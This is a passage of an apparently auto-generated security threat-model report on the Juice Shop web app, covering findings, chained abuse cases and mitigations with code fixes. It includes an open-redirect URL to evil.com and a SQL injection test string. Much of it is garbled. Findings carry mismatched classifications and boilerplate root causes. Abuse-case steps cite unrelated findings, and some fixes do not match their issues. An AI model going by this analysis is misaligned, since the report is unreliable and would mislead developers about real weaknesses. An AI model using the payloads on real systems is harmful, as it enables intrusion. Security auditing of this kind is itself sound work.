**Fix:** ❸ [M-094](#m-094) — Add security audit logging

**Classification:** Error Information Disclosure · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-051"></a><a id="f-051"></a>
#### F-051 · Error Message Disclosure

**Severity:** 🟡 Medium  ·  **Component:** [C-04](#c-04) - B2B REST API  ·  **Location:** `routes/b2bOrder.ts:33`

**Issue:** When an evaluated `orderLinesData` expression throws an exception that is not a timeout (line 26 pattern match fails), the handler at line 33 calls `next(err)` with the raw Error object. If Express is not in production mode or no custom error handler sanitizes the response, the default Express error serializer emits the full stack trace - including `Node.js` internal paths, module paths, and potentially the specific `vm` and `notevil` versions - in the HTTP response body.

Attacker receives detailed error messages including `notevil`/vm module internals, accelerating sandbox-escape exploit development.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `next(err)` at line 33 forwards the raw caught Error (including message and stack) to Express without sanitization; no production-safe error wrapper is applied in the b2bOrder handler.

**Fix:** Replace developer error pages with a generic message in production responses → ❸ [M-095](#m-095) — Return generic error messages to clients

**Classification:** Cryptographic Failures · [CWE-209](https://cwe.mitre.org/data/definitions/209.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-052"></a><a id="f-052"></a>
#### F-052 · ~~Improper Verification of Cryptographic Signature~~ ⚠

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `.github/workflows/:1`

**Issue:** Docker images are built and pushed to DockerHub in both `ci.yml` and `release.yml` without any signing step. A registry intermediary or compromised DockerHub account could substitute the published image without detection by downstream users.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ⚠ refuted

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-096](#m-096) — Sign and verify release artifacts

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-053"></a><a id="f-053"></a>
#### F-053 · Npm install does not use

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `Dockerfile:5`

**Issue:** The production npm install in the Dockerfile does not pass --ignore-scripts. Any compromised dependency can execute arbitrary postinstall code at build time, enabling supply-chain attacks that persist into the shipped container image.

**Evidence:** ✓ verified

**Fix:** ❸ [M-097](#m-097) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-054"></a><a id="f-054"></a>
#### F-054 · postinstall hook present not audited

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `package.json:88`

**Issue:** A 'postinstall' script is declared in `package.json` without an adjacent '# audited:' annotation. The hook executes automatically during 'npm install', running frontend build steps at install time.

Any supply-chain compromise that injects into the postinstall path executes code for every developer and CI run.

**Evidence:** ✓ verified

**Fix:** ❸ [M-098](#m-098) — Disable untrusted package install scripts

**Classification:** Supply-Chain Integrity · [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-055"></a><a id="f-055"></a>
#### F-055 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `.github/dependabot.yml:1`

**Issue:** No .github/dependabot.yml exists. npm dependencies are not automatically tracked for security updates. Vulnerable transitive dependencies will persist indefinitely without manual intervention.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❸ [M-099](#m-099) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-056"></a><a id="f-056"></a>
#### F-056 · Allocation of Resources without Limits

**Severity:** 🟡 Medium  ·  **Component:** [C-01](#c-01) - Angular SPA  ·  **Location:** `frontend/src/app/login/login.component.ts:134`

**Issue:** The `googleLogin()` method redirects directly to the OAuth provider without any client-side throttle. The standard login form also lacks a lockout or CAPTCHA - an automated tool can trigger repeated OAuth redirects or repeated credential submissions.

Automated credential stuffing and OAuth flow flooding degrade service availability and amplify the impact of the derived-password bypass.

**Evidence:** ✓ verified - `login.component.ts:134` calls `googleLogin()` on button click with no debounce, rate-limit check, or lockout counter - the SPA offers no resistance to repeated invocation.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-100](#m-100) — Rate-limit and lock out repeated authentication attempts

**Classification:** Denial of Service · [CWE-770](https://cwe.mitre.org/data/definitions/770.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-057"></a><a id="f-057"></a>
#### F-057 · Uncontrolled Resource Consumption

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `routes/search.ts:23`

**Issue:** `routes/search.ts:23` issues `SELECT * FROM Products WHERE name LIKE '%${criteria}%' OR description LIKE '%${criteria}%'` with no query timeout, no pagination, and no result-count cap. A leading `%` on a LIKE clause forces SQLite to scan the full `Products` table for every request.

Concurrent search requests with adversarial patterns block legitimate queries and degrade application response across all routes sharing the SQLite connection.

**Evidence:** ✓ verified - `routes/search.ts:23` runs a double-LIKE scan over the `Products` table with no row limit, timeout, or back-pressure control.

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❸ [M-101](#m-101) — Add rate limiting and query result pagination to the search endpoint

**Classification:** Injection · [CWE-400](https://cwe.mitre.org/data/definitions/400.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Open Redirect

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `lib/insecurity.ts:138`

**Issue:** `isRedirectAllowed()` at `lib/insecurity.ts:138` uses `url.includes(allowedUrl)` - a substring check, not a strict equality or origin match. An attacker constructs `GET /redirect?to=https://evil.com/?r=https://github.com/juice-shop/juice-shop`.

Users trusting the juice-shop domain are silently redirected to attacker-controlled URLs after clicking legitimate-looking links.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `allowed = allowed || url.includes(allowedUrl)` at line 138 performs a substring match; the bypassed guard is directly consumed by `res.redirect(toUrl)` in `routes/redirect.ts:19`.

**Fix:** ❸ [M-092](#m-092) — Validate redirect targets against an allowlist

**Classification:** Broken Authentication · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

### 🟢 Low (2)

<a id="t-058"></a><a id="f-058"></a>
#### F-058 · Missing HEALTHCHECK instruction

**Severity:** 🟢 Low  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `Dockerfile:1`

**Issue:** The Dockerfile has no HEALTHCHECK instruction. Container orchestrators cannot detect a hung or poisoned container process and will continue routing traffic to it, prolonging the impact of a runtime compromise.

**Evidence:** ✓ verified

**Fix:** ❹ [M-102](#m-102) — Add a container healthcheck

**Classification:** Error Information Disclosure · [CWE-703](https://cwe.mitre.org/data/definitions/703.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-059"></a><a id="f-059"></a>
#### F-059 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟢 Low  ·  **Component:** [C-02](#c-02) - Express Backend  ·  **Location:** `renovate.json:1`

**Issue:** No `renovate.json` (or alternative Renovate config file) is present in the repository. If Renovate hosted-app is not enabled at the org level, dependency updates rely entirely on manual review, increasing the window for known-vulnerable dependencies to persist.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❹ [M-103](#m-103) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

---

_**Evidence verification:** rows tagged `⚠ (evidence refuted)` were re-checked by the Phase 10a evidence-verifier (see `.evidence-verification.json`) and the cited `file:line` did **not** show the claimed weakness. Their raw severity is preserved, but chain-elevation has been suppressed by the triage stage. Rows tagged `◌ (evidence ambiguous)` could not be confirmed or refuted from the cited snippet alone - a human reviewer should decide whether to keep, downgrade, or remove these findings._

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-001](#ac-t-001) | Account Takeover via Stored XSS + Token<br/>Hijacking | external-attacker | 🔴 Critical | ◐ Partially blocked |
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🟠 High | ? Inconclusive |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on<br/>Registration | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🔴 Critical | ⚠ Fully viable |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

### <a id="ac-t-001"></a>AC-T-001 — Account Takeover via Stored XSS + Token Hijacking

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Obtain persistent authenticated access as an arbitrary user without valid credentials.

**Prerequisite:** Attacker can submit content that is later rendered to other users (e.g. feedback, comments, profile fields).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-002](#f-002) — Systemic Broken Authorization Attacker-Controlled Owner ID Across Resource Endp — `routes/address.ts:11`<br/>`frontend/src/app/search-result/search-result.component.ts:132` | Attacker JavaScript executes in the victim's<br/>browser session. |
| 2 | 🟠 [F-004](#f-004) — Systemic Missing permissions Block Across GitHub Actions Workflows — `ci.yml:1`<br/>`frontend/src/app/Services/request.interceptor.ts:13` | Token exfiltrated from local/session storage<br/>via the Step 1 payload. |
| 3 | 🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist — `lib/insecurity.ts:191`<br/>`frontend/src/app/oauth/oauth.component.ts:51` | Exfiltrated token accepted for a new<br/>session; absence of token binding / PKCE<br/>removes the last server-side revocation<br/>opportunity. |

**Why combined risk exceeds individual ratings**

Individually the XSS sink and the web-readable token storage rate below Critical, but chained they form a repeatable credential-theft path: a single stored payload causes indefinite session compromise for every user who views the affected page.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-048](#m-048) — Enforce object-level (ownership) authorization (**P1**): remediating 🔴 [F-002](#f-002) — Systemic Broken Authorization Attacker-Controlled Owner ID Across Resource Endp — `routes/address.ts:11` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❷ [M-050](#m-050) — Apply least-privilege permissions (**P2**): remediating 🟠 [F-004](#f-004) — Systemic Missing permissions Block Across GitHub Actions Workflows — `ci.yml:1` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.
- ❶ [M-053](#m-053) — Enforce JWT signature and algorithm verification (**P1**): remediating 🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist — `lib/insecurity.ts:191` breaks the chain at **Step 3**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-002"></a>AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🟠 High · **Verdict:** ? Inconclusive

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage — `request.interceptor.ts:13`<br/>`server.ts:362` | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage — `request.interceptor.ts:13`<br/>`routes/address.ts:11` | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-049](#m-049) — Store session tokens in HttpOnly, Secure cookies (**P2**): remediating 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage — `request.interceptor.ts:13` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-003"></a>AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery — `lib/insecurity.ts:54` | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage — `request.interceptor.ts:13`<br/>`routes/address.ts:11` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-047](#m-047) — Verify token signatures before trusting claims (**P1**): remediating 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery — `lib/insecurity.ts:54` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❷ [M-049](#m-049) — Store session tokens in HttpOnly, Secure cookies (**P2**): remediating 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage — `request.interceptor.ts:13` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-004"></a>AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage — `request.interceptor.ts:13`<br/>`server.ts:483` | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Why combined risk exceeds individual ratings**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❷ [M-049](#m-049) — Store session tokens in HttpOnly, Secure cookies (**P2**): remediating 🟠 [F-003](#f-003) — JWT Session Token Stored in localStorage — `request.interceptor.ts:13` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-005"></a>AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-009](#f-009) — JWT verify call missing algorithms allowlist — `routes/verify.ts:117`<br/>`lib/insecurity.ts:23` | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery — `lib/insecurity.ts:54` | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-053](#m-053) — Enforce JWT signature and algorithm verification (**P1**): remediating 🔴 [F-009](#f-009) — JWT verify call missing algorithms allowlist — `routes/verify.ts:117` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-047](#m-047) — Verify token signatures before trusting claims (**P1**): remediating 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery — `lib/insecurity.ts:54` breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-006"></a>AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-014](#f-014) — Stored Cross-Site Scripting — `administration.component.ts:78`<br/>`routes/userProfile.ts:62` | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer (**P1**): remediating 🔴 [F-014](#f-014) — Stored Cross-Site Scripting — `administration.component.ts:78` breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>❶ [M-047](#m-047) — Verify token signatures before trusting claims<br/>❶ [M-048](#m-048) — Enforce object-level (ownership) authorization<br/>❶ [M-052](#m-052) — Harden the authentication flow<br/>❶ [M-053](#m-053) — Enforce JWT signature and algorithm verification<br/>❶ [M-054](#m-054) — Use parameterized database queries<br/>❶ [M-055](#m-055) — Move cryptographic keys to a managed secret store<br/>❶ [M-056](#m-056) — Enforce JWT signature and algorithm verification<br/>❶ [M-057](#m-057) — Move secrets to a managed secret store<br/>❶ [M-058](#m-058) — Encode output instead of bypassing the framework sanitizer<br/>❶ [M-059](#m-059) — Encode output instead of bypassing the framework sanitizer<br/>❶ [M-060](#m-060) — Encode output instead of bypassing the framework sanitizer<br/>❶ [M-061](#m-061) — Use parameterized database queries<br/>❶ [M-062](#m-062) — Disable XML external entity (XXE) resolution<br/>❶ [M-063](#m-063) — Validate and allowlist outbound request targets<br/>❶ [M-064](#m-064) — Remove server-side evaluation of untrusted input<br/>❶ [M-065](#m-065) — Remove server-side evaluation of untrusted input<br/>❷ [M-049](#m-049) — Store session tokens in HttpOnly, Secure cookies<br/>❷ [M-050](#m-050) — Apply least-privilege permissions<br/>❷ [M-051](#m-051) — Enforce server-side authorization on every endpoint<br/>❷ [M-066](#m-066) — Add anti-CSRF protection to state-changing requests<br/>❷ [M-067](#m-067) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-068](#m-068) — Encode output instead of bypassing the framework sanitizer<br/>❷ [M-069](#m-069) — Validate orderLinesData type and length before passing to the eval path<br/>❷ [M-070](#m-070) — Use parameterized database queries<br/>❷ [M-071](#m-071) — Replace extension-based file type check with magic-byte validation…<br/>❷ [M-072](#m-072) — Add security audit logging<br/>❷ [M-073](#m-073) — Remove attacker-controlled X-Forwarded-For from rate-limit key; rely…<br/>❷ [M-074](#m-074) — Drop unnecessary privileges in build and runtime<br/>❷ [M-075](#m-075) — Pin third-party dependencies to immutable versions<br/>❷ [M-076](#m-076) — Pin the container base image to an immutable digest<br/>❷ [M-077](#m-077) — Pin the container base image to an immutable digest<br/>❷ [M-078](#m-078) — Stop storing sensitive data in cleartext<br/>❷ [M-079](#m-079) — Restrict access to the ftp/ directory behind authentication or remove…<br/>❷ [M-080](#m-080) — Hash passwords with a strong, salted algorithm<br/>❷ [M-081](#m-081) — Return generic error messages to clients<br/>❷ [M-082](#m-082) — Require authentication and admin role check before `/support/logs` and…<br/>❷ [M-083](#m-083) — Offload CPU-bound work and bound execution time<br/>❷ [M-084](#m-084) — Bound parser and decompression resource limits<br/>❷ [M-085](#m-085) — Remove client-side role claim trust from Angular guards and enforce…<br/>❷ [M-086](#m-086) — Enforce object-level (ownership) authorization<br/>❷ [M-087](#m-087) — Constrain file paths to a safe base directory<br/>❷ [M-088](#m-088) — Restore authorization middleware on PUT `/api/Products/:id` and require…<br/>❷ [M-089](#m-089) — Add isAuthorized JWT guard to POST `/file-upload`<br/>❷ [M-090](#m-090) — Enforce object-level (ownership) authorization<br/>❷ [M-104](#m-104) — Data disclosure through cleartext transport<br/>❷ [M-105](#m-105) — Architecture review: validate Data disclosure through cleartext…<br/>❸ [M-091](#m-091) — Pass JWT in Socket\.IO auth option and validate on the server at…<br/>❸ [M-092](#m-092) — Validate redirect targets against an allowlist<br/>❸ [M-093](#m-093) — Add security audit logging<br/>❸ [M-094](#m-094) — Add security audit logging<br/>❸ [M-095](#m-095) — Return generic error messages to clients<br/>❸ [M-096](#m-096) — Sign and verify release artifacts<br/>❸ [M-097](#m-097) — Disable untrusted package install scripts<br/>❸ [M-098](#m-098) — Disable untrusted package install scripts<br/>❸ [M-099](#m-099) — Pin the container base image to an immutable digest<br/>❸ [M-100](#m-100) — Rate-limit and lock out repeated authentication attempts<br/>❸ [M-101](#m-101) — Add rate limiting and query result pagination to the search endpoint<br/>❹ [M-102](#m-102) — Add a container healthcheck<br/>❹ [M-103](#m-103) — Pin the container base image to an immutable digest

### P1 — Immediate

<a id="m-047"></a>
#### M-047 — Verify token signatures before trusting claims

**Addresses:**

- 🔴 [F-001](#f-001) — Hardcoded RSA Private Key Enables JWT Forgery (`lib/insecurity.ts:54`)

**Priority:** P1 - Immediate · **Effort:** High · **File:** `lib/insecurity.ts:54`

**How:**

1. Remove the hardcoded private key from `lib/insecurity.ts` and load it from an environment variable or secrets manager at startup (e.g. `process.env.JWT_PRIVATE_KEY`).
2. Add `algorithms: ['RS256']` to the `expressJwt()` options in `isAuthorized()` to prevent algorithm confusion attacks (`HS256` with the public key as secret, and `alg:none` bypass).
3. Upgrade `express-jwt` from 0.1.3 to ≥8.x which requires the `algorithms` parameter, removing the silent algorithm-none acceptance.
4. Implement JWT revocation (e.g. a short TTL + server-side deny-list) so compromised tokens can be invalidated without key rotation.

```typescript
// lib/insecurity.ts — patched isAuthorized
export const isAuthorized = () => expressJwt({
  secret: process.env.JWT_PUBLIC_KEY ?? publicKey,
  algorithms: ['RS256']
})
```

**Reference:** CWE-345

---

<a id="m-048"></a>
#### M-048 — Enforce object-level (ownership) authorization

**Addresses:**

- 🔴 [F-002](#f-002) — Systemic Broken Authorization Attacker-Controlled Owner ID Across Resource Endp (`routes/address.ts:11`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/address.ts:11`

**How:** Replace `req.body.UserId`/`userId`/`ownerId` with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

---

<a id="m-052"></a>
#### M-052 — Harden the authentication flow

**Addresses:**

- 🔴 [F-006](#f-006) — OAuth Implicit Flow with Derived Password (`oauth.component.ts:30`)

**Priority:** P1 - Immediate · **Effort:** High · **File:** `frontend/src/app/oauth/oauth.component.ts:30`

**How:**

1. Change `response_type=token` to `response_type=code` in `login.component.ts:134` and implement PKCE (`code_challenge` + `code_verifier`) per RFC 7636.
2. Add a random `state` parameter to the authorization request and verify it on callback in `oauth.component.ts` to prevent CSRF.
3. Remove the `btoa(email.reversed)` derived-password logic entirely from `oauth.component.ts:30-31`. The OAuth `access_token` alone (or an OIDC `id_token`) should authenticate the user - do not create or derive a local password.
4. Handle the authorization code exchange server-side (Backend-for-Frontend pattern) so no token or code reaches `localStorage`.
5. Add `nonce` to OIDC requests and validate it on `id_token` receipt.

```javascript
// WRONG (current):
window.location.replace(`${oauthProviderUrl}?client_id=${clientId}&response_type=token&scope=email&redirect_uri=${redirectUri}`)

// CORRECT (authorization code + PKCE):
const verifier = crypto.randomUUID() + crypto.randomUUID()
const challenge = btoa(await crypto.subtle.digest('SHA-256', new TextEncoder().encode(verifier)))
  .replace(/\+/g,'-').replace(/\//g,'_').replace(/=/g,'')
sessionStorage.setItem('pkce_verifier', verifier)
window.location.replace(`${oauthProviderUrl}?client_id=${clientId}&response_type=code&code_challenge=${challenge}&code_challenge_method=S256&state=${state}&scope=email&redirect_uri=${redirectUri}`)
```

**Reference:** CWE-287

---

<a id="m-053"></a>
#### M-053 — Enforce JWT signature and algorithm verification

**Addresses:**

- 🔴 [F-007](#f-007) — JWT verify call missing algorithms allowlist (`lib/insecurity.ts:191`)
- 🔴 [F-008](#f-008) — JWT verify call missing algorithms allowlist (`routes/chatbot.ts:248`)
- 🔴 [F-009](#f-009) — JWT verify call missing algorithms allowlist (`routes/verify.ts:117`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:191`

**How:** Always pass `algorithms: ['RS256']` (or the project's chosen alg) as the third argument's options object to jwt.verify.

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-054"></a>
#### M-054 — Use parameterized database queries

**Addresses:**

- 🔴 [F-010](#f-010) — SQL Injection Authentication Bypass (`routes/login.ts:34`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/login.ts:34`

**How:**

1. Replace the `models.sequelize.query()` call at `routes/login.ts:34` with `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })`.
2. Remove the raw SQL template literal; let Sequelize generate a parameterised query with bound values.
3. Add an integration test that submits `' OR '1'='1` as the email and asserts a 401 response.

```javascript
// routes/login.ts — safe replacement
const authenticatedUser = await UserModel.findOne({
  where: {
    email: req.body.email || '',
    password: security.hash(req.body.password || '')
  }
})
```

**Reference:** CWE-89

---

<a id="m-055"></a>
#### M-055 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-011](#f-011) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:23`

**How:**

1. Delete the `privateKey` string literal from `lib/insecurity.ts:23`.
2. Load the private key at startup from an environment variable or a secrets manager path: `const privateKey = process.env.JWT_PRIVATE_KEY || fs.readFileSync(process.env.JWT_PRIVATE_KEY_PATH, 'utf8')`.
3. Rotate the RSA key pair since the current private key is committed to the repository and must be considered compromised.
4. Add a pre-commit hook or secret-scanning CI step (`gitleaks`, `truffleHog`) to prevent future key commits.

```typescript
// Load the RSA private key from an environment variable / KMS — never
// the source tree. Rotate the prior key and revoke outstanding tokens.
const privateKey = process.env.JWT_PRIVATE_KEY
if (!privateKey) throw new Error('JWT_PRIVATE_KEY not set')
const token = jwt.sign(claims, privateKey, { algorithm: 'RS256' })
```

**Verification:** `git grep -- 'BEGIN RSA PRIVATE KEY'` returns no matches in the working tree.

**Reference:** CWE-321

---

<a id="m-056"></a>
#### M-056 — Enforce JWT signature and algorithm verification

**Addresses:**

- 🔴 [F-012](#f-012) — JWT Algorithm Restriction Absent in express-jwt Configuration (`lib/insecurity.ts:54`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `lib/insecurity.ts:54`

**How:**

